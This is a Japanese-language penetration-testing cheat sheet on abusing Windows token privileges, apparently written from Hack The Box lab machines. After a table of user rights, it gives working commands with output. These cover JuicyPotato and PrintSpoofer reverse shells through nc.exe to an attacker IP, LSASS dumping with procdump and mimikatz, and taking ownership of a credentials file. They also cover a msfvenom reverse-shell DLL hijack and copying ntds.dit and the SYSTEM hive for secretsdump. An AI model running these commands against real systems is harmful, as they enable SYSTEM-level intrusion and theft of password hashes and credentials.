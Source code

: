 # Windows における権利と特権

# ユーザー権利の割り当て

これらの権限により、ユーザーはローカルまたはリモートでのログオン、ネットワークからのホストへのアクセス、サーバーのシャットダウンなどのタスクをシステム上で実行できるようになる

このマイクロソフトの記事 [User Rights Assignment](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment) では、Windows で設定できる各ユーザー権利と、各権利に適用されるセキュリティに関する考慮事項について書かれている

| 設定 [定数](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) | 設定名                                                       | 標準割り当て                                            | 説明                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------- | ------------------------------------------------------------ |
| SeNetworkLogonRight                                          | [Access this computer from the network](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/access-this-computer-from-the-network) | Administrators, Authenticated Users                     | どのユーザーがネットワークからデバイスに接続できるかを決定する。これは、SMB、NetBIOS、CIFS、COM+ などのネットワーク プロトコルで必要 |
| SeRemoteInteractiveLogonRight                                | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) | Administrators, Remote Desktop Users                    | このポリシー設定は、リモート デスクトップ サービス接続を通じてリモート デバイスのログイン画面にアクセスできるユーザーまたはグループを決定する。ユーザーは特定のサーバーへのリモート デスクトップ サービス接続を確立できるが、同じサーバーのコンソールにログオンすることはできない |
| SeBackupPrivilege                                            | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories) | Administrators                                          | このユーザー権利は、システムをバックアップする目的で、ファイル、ディレクトリ、レジストリ、およびその他の永続オブジェクトのアクセス許可をバイパスできるユーザーを決定する |
| SeSecurityPrivilege                                          | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log) | Administrators                                          | このポリシー設定は、ファイル、Active Directory オブジェクト、レジストリ キーなどの個々のリソースに対してオブジェクト アクセス監査オプションを指定できるユーザーを決定する。これらのオブジェクトは、システム アクセス制御リスト (SACL) を指定する。このユーザー権利を割り当てられたユーザーは、イベント ビューアーでセキュリティ ログを表示およびクリアすることもできる |
| SeTakeOwnershipPrivilege                                     | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) | Administrators                                          | このポリシー設定は、Active Directory オブジェクト、NTFS ファイルとフォルダー、プリンター、レジストリ キー、サービス、プロセス、スレッドなど、デバイス内のセキュリティ保護可能なオブジェクトの所有権をどのユーザーが取得できるかを決定する |
| SeDebugPrivilege                                             | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) | Administrators                                          | このポリシー設定は、どのユーザーがプロセス (自分が所有していないプロセスであっても) にアタッチしたり、プロセスを開いたりできるかを決定する。アプリケーションをデバッグしている開発者には、このユーザー権利は必要ない。新しいシステム コンポーネントをデバッグする開発者には、このユーザー権利が必要。このユーザー権利により、機密性の高い重要なオペレーティング システム コンポーネントへのアクセスが提供される |
| SeImpersonatePrivilege                                       | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication) | Administrators, Local Service, Network Service, Service | このポリシー設定は、どのプログラムがユーザーまたは別の指定されたアカウントになりすましてユーザーの代わりに動作することを許可するかを決定する |
| SeLoadDriverPrivilege                                        | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers) | Administrators                                          | このポリシー設定は、どのユーザーがデバイス ドライバーを動的にロードおよびアンロードできるかを決定する。新しいハードウェア用の署名付きドライバーがデバイス上の driver.cab ファイルにすでに存在する場合、このユーザー権利は必要ない。デバイス ドライバーは高度な特権コードとして実行される |
| SeRestorePrivilege                                           | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories) | Administrators                                          | このセキュリティ設定は、バックアップされたファイルとディレクトリを復元するときに、どのユーザーがファイル、ディレクトリ、レジストリ、その他の永続オブジェクトのアクセス許可をバイパスできるかを決定する。これにより、どのユーザーがオブジェクトの所有者として有効なセキュリティ プリンシパルを設定できるかが決まる |

`whoami /priv`で現在のユーザーに割り当てられているすべてのユーザー権限のリストが表示

アカウントの特権が`Disabled`でリストされている場合、それはアカウントに特定の特権が割り当てられていることを意味する。ただし、有効になるまでは、アクセス トークンで使用して、関連するアクションを実行することはできない

```powershell-session
PS C:\hatto> whoami 

winlpe-srv01\administrator


PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled 
```

この記事 [Enable All Token Privileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) で紹介されているスクリプトを使用することですべてのトークン権限を有効にできる



# SeImpersonatePrivilege

`whoami /priv`などで `SeImpersonatePrivilege` がリストされている場合 `JuicyPotato` をしようすることで `DCOM/NTLM` リフレクションを悪用を介して `SeImpersonate` または `SeAssignPrimaryToken` 権限を悪用することができる

## JuicyPotato を使用した権限の昇格

これらの権限を使用して権限を昇格するには、まず `JuicyPotato.exe` バイナリをダウンロードし、これと `nc.exe` をターゲット サーバーにアップロードする。次に、ポート 8443 で Netcat リスナーを起動し、以下のコマンドを実行する。ここで、`-l` は COM サーバーのリスニング ポート、`-p` は起動するプログラム (cmd.exe)、`-a` は cmd.exe に渡される引数です。 `-t` は createprocess 呼び出し。以下では、`CreateProcessWithTokenW` 関数と `CreateProcessAsUser` 関数の両方を試行するようにツールに指示している。これらの関数には、それぞれ `SeImpersonate` 権限または `SeAssignPrimaryToken` 権限が必要

`impacket-mssqlclient` からの実行例

```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> enable_xp_cmdshell
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.16.8 8443 -e cmd.exe" -t *
output                                                       
----------------------------------------------------------   
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375         

......                                                       

[+] authresult 0                                             

{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM   

NULL                                                         

[+] CreateProcessWithTokenW OK                               

[+] calling 0x000000000088ce08                               

NULL                                                         

SQL (WINLPE-SRV01\sql_dev  dbo@master)>          
```

正常に完了し、`NT AUTHORITY\SYSTEM` としてシェルを受け取ることができる

```
hatto@VMWare-Kali [11時55分02秒] [~] 
-> % rlwrap -cAr nc -lvnp 8443       
listening on [any] 8443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.43.43] 49702
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>
```

## PrintSpoofer を使用した権限の昇格

JuicyPotato は、Windows Server 2019 および Windows 10 ビルド 1809 以降では動作しない。ただし、`PrintSpoofer` と `RoguePotato` を使用すると、同じ権限を活用し、`NT AUTHORITY\SYSTEM` レベルのアクセスを取得できる

`-c` 引数を指定してツールを使用してコマンドを実行します。ここでは、`nc.exe` を使用してリバース シェルを生成します (Netcat リスナーがポート 8443 の攻撃ボックスで待機しています)。

`impacket-mssqlclient` からの実行例

```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.16.8 8443 -e cmd"
output                                        
-------------------------------------------   
[+] Found privilege: SeImpersonatePrivilege   

[+] Named pipe listening...                   

[+] CreateProcessAsUser() OK                  

NULL                                          

SQL (WINLPE-SRV01\sql_dev  dbo@master)> 
```

正常に完了し、`NT AUTHORITY\SYSTEM` としてシェルを受け取ることができる

```
hatto@VMWare-Kali [12時26分45秒] [~] 
-> % rlwrap -cAr nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.43.43] 49719
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```



# SeDebugPrivilege

この特権を使用すると、他のプロセスのデバッグが許可され、メモリ内の読み書きが可能になる。この特権を使用して、ほとんどのアンチウイルスおよびホスト侵入防止ソリューションを回避できるさまざまなメモリインジェクション戦略を適用できる

## メモリのダンプ

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) を [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) から使用して、プロセスのメモリをキャプチャできる。具体的には、これはユーザーがシステムに正常にログインした後にユーザーの資格情報を保存する**Local Security Authority Subsystem Service (LSASS)**プロセスに適用できる

```cmd-session
C:\hatto> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

その後、このダンプをmimikatzに読み込んでパスワードを取得できる

```cmd-session
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp  # sekurlsa::minidump で lsass.dmp を Mimikatz にロードする
mimikatz # sekurlsa::logonpasswords      # ローカル管理者アカウントの NTLM ハッシュを取得
```

## RCE

`NT SYSTEM`のシェルを取得したい場合は、次の方法があります：

- [**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
- [**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
- [**psgetsys.ps1 (Powershell Script)**](https://github.com/decoder-it/psgetsystem)

PIDの取得には `tasklist` で取得できる (主に `winlogon.exe`のPIDを取得して `c:\windows\system32\cmd.exe` を起動させる)

```powershell
PS> Import-module psgetsys.ps1 
PS> ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>    # -cmdargsは""にする
```



# SeTakeOwnershipPrivilege

この権限は`Active Directory object`, `NTFS file/folder`, `printers`, `registry keys`, `services`, `processes` などのセキュリティで保護されたオブジェクトの所有権をユーザに付与できる。管理者にはデフォルトで割り振られているが実際に標準ユーザーでこの権限が割り振られているアカウントに遭遇することはあまりない

つまり、権限がなくて参照できないファイルなどを参照できる権限を付与することができる

## 興味深いファイル

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, 
%WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

## SeTakeOwnershipPrivilege を有効にする

権限が `Disabled` になっている場合 [EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) を使用して権限を有効にできる

もしくはこの記事 [Enable All Token Privileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) で紹介されているスクリプトを使用することですべてのトークン権限を有効にできる

## ファイルの所有権の取得

[Takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows バイナリを使用してファイルの所有権を変更できる

`C:\Department Shares\Private\IT\cred.txt` の所有権を取得する

```powershell-session
C:\hatto> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\hatto".
```

## 所有権の変更の確認

```powershell-session
PS C:\hatto> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\hatto
```

## ファイルACLの変更

ファイルをまだ読み取れない可能性があるため、ファイルを読み取れるようにするには、[icacls](https://learn.microsoft.com/ja-jp/windows-server/administration/windows-commands/icacls) を使用してファイル ACL を変更する

```powershell-session
PS C:\hatto> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant <権限を与えるユーザー名>:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```



# SeManageVolumePrivilege

SeManageVolumePrivilegeは、ボリュームメンテナンスタスクを実行するためのユーザーサービス権限を許可する。これにより、ディスク上のユーザー権限の割り当てを変更できるようになる

以下のエクスプロイトスクリプトをターゲットマシン上で実行する

[SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

## DLL Hijacking

スクリプトを実行することで `C:`ドライブ内System32を含むの任意のファイルに書き込むことができる

msfvenomで `tzres.dll` とうリバースシェルを作成する。これは `systeminfo` コマンドを実行したときに呼び出されるdll

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack ip> LPORT=1337 -f dll -o tzres.dll
```

ターゲットマシンの `C:\Windows\System32\wbem\tzres.dll` にコピーしてリスナーを起動、 `systeminfo` を実行することでシェルを取得できる



# SeBackupPrivilege

SeBackupPrivilege は、オブジェクトのセキュリティ設定に関係なく、ユーザーまたはプロセスにファイルとディレクトリを読み取る権限を持つ。この権限は、通常ユーザーがアクセスできないファイルをバックアップまたはコピーする機能を必要とする特定のバックアッププログラムまたはプロセスで使用できる。

[SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege/tree/master) ここから悪意のある２つのdll `SeBackupPrivilegeUtils.dll`, `SeBackupPrivilegeCmdLets.dll`をダウンロードし、アップロードする

## 権限の悪用

dllを読み込ませる

```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

権限を有効にする

```
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

### 機密ファイルのコピーと読み取り

```
Copy-FileSeBackupPrivilege C:\Users\Administrator\proof.txt C:\Users\Public\proof.txt -Overwrite
```

### パスワードハッシュを取得する

```
Copy-FileSeBackupPrivilege h:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite
reg save HKLM\SYSTEM c:\tmp\system
```

### パスワードハッシュをdump

```
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```





